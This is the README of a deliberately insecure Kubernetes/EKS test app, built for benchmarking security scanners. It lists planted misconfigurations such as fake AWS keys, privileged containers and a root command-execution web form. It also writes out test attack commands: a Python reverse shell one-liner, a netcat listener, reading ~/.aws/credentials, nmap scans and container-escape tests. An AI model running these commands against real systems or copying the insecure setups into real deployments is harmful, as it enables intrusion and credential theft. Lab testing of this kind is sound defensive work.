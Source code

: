 <p align="center"><img src="https://raw.githubusercontent.com/latiotech/LAST/main/logo.png" width="150" ><br><h1 align="center">Insecure Kubernetes App</h1>
</p>

![GitHub stars](https://img.shields.io/github/stars/latiotech/insecure-kubernetes-deployments?style=social)
![GitHub release (latest by date)](https://img.shields.io/github/v/release/latiotech/insecure-kubernetes-deployments)
![GitHub issues](https://img.shields.io/github/issues/latiotech/insecure-kubernetes-deployments)
![GitHub pull requests](https://img.shields.io/github/issues-pr/latiotech/insecure-kubernetes-deployments)
![GitHub](https://img.shields.io/github/license/latiotech/insecure-kubernetes-deployments)
[![Discord](https://img.shields.io/discord/1119809850239614978)](https://discord.gg/k5aBQ55j5M)
![Docker Pulls](https://img.shields.io/docker/pulls/confusedcrib/insecure-app)

Test every type of configuration scanner against a single repo that's comically insecure with documented issues

[About Latio](https://latio.tech)  

- [Deployment](#deployment)
- [Issues to Test](#this-repo-contains-the-following-issues)
- [Testing Details](#testing)

## Deployment:

This will create an EKS cluster with some insecure application pods for testing.

1. Make sure you have Terraform, Helm, AWS CLI, eksctl and a valid AWS user configured

2. Move to terraform directory, `cd terraform`

3. Apply the terraform, this creates an EKS cluster for testing: `terraform init` `terraform plan` `terraform apply` This creates two EKS node groups, one publicly accessible over SSH and another private. These will run small instances, be sure to `terraform destroy` when you're done for minimal fees. This takes about 15 minutes.

4. Add the Terraform EKS details to your kubeconfig
```
aws eks --region $(terraform output -raw region) update-kubeconfig \
    --name $(terraform output -raw cluster_name)
```

5. Grant your user access to the kubernetes cluster you created - through the Console it's adding the AmazonEKSAdminPolicy and AmazonEKSClusterAdminPolicy to your user. This could be automated with terraform to create a user and a role and output them, but it would require adding additional AWS profiles which I thought might be more confusing unless someone has a better solution. 

6. Move to the helm chart directory `cd ../insecure-chart/`

7. Deploy the insecure app, busybox pod, and workload security evaluator `helm install insecure-app . --create-namespace --namespace=insecure-app`

8. To test in these pods:

Get pod name, `kubectl get pods -n insecure-app` or `kubectl get pods -n insecure-app`

For testing insecure-app, run `kubectl port-forward pod/[POD-NAME] 8080:8080 -n insecure-app`. You can now test in your browser at `http://localhost:8080/`

For workload-security-evaluator, run `k exec -it [POD-NAME] -n insecure-app -- /bin/bash`, then `pwsh` to being invoking tests such as `Invoke-AtomicTest T1105-27 -ShowDetails`

9. `terraform destroy` when you're done!


## This Repo Contains the following issues:

### General Configuration Issues

1. Busybox is deployed as a long running pod with plenty of dangerous utilities on it
2. Insecure App has fake AWS access keys as env variables, mounts the docker socket, runs in privileged mode, is open on port 8080 and port 22, and binds an SA role with permissions to create more SA roles
3. Workload Security Evaluator contains all the same issues

### Insecure-app

1. Takes raw input as a web form and runs it as root on the server and returns the input to the user
2. Allows for unvalidated file uploads
3. Is running in debug mode
4. Has way more utilities on its Dockerfile than it needs

### Workload-security-evaluator

1. Is forked from [DataDog](https://github.com/DataDog/workload-security-evaluator)
2. Is used for running tests from [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)

# Testing 

## Misconfigurations

1. AWS creds in env variables
2. SSH port open
3. SA credentials have ability to create new credentials
4. Privileged container
5. Docker socket mounted

## Runtime

1. Run `python3 --version` and `ls -al` via the web form  - detects if it can tell that the python process is running bash commands
2. Run `apt-get update` and `apt-get install hydra -y` - to check for package installs
3. Scan the local port range to look for network detections - `nmap -sS 192.168.1.1-254`
4. Try to spawn a reverse shell
    - bash into workload-security and run `apt-get install netcat`
    - `nc -lvnp 9001`
    - `export RHOST="WORKLOAD-POD-IP";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
5. Check what secrets we might have access to `printenv` and `cat ~/.aws/credentials`
6. Upload ransomware python script `ransomware.py`- this will indicate the level of alerting, if it's new file, python, or specifics about the python
7. Exec into the workload security evaluator pod with `k exec -it [POD-NAME] -n insecure-app -- /bin/bash`, then `pwsh`
8. `Invoke-AtomicTest T1105-27` - download and run a file
9. `Invoke-AtomicTest T1046-2` - run nmap
10. `Invoke-AtomicTest T1053.003-2` - modify cron jobs
11. `Invoke-AtomicTest T1070.003-1` - clear bash history
12. `Invoke-AtomicTest T1611-1,2` - Container escape
13. Check agent utilization with `k top pod --all-namespaces`
<<<<<<< HEAD
=======

Readme change
>>>>>>> b8e1c4d61873ed7566d33dcd8bd4b76bcf86e450
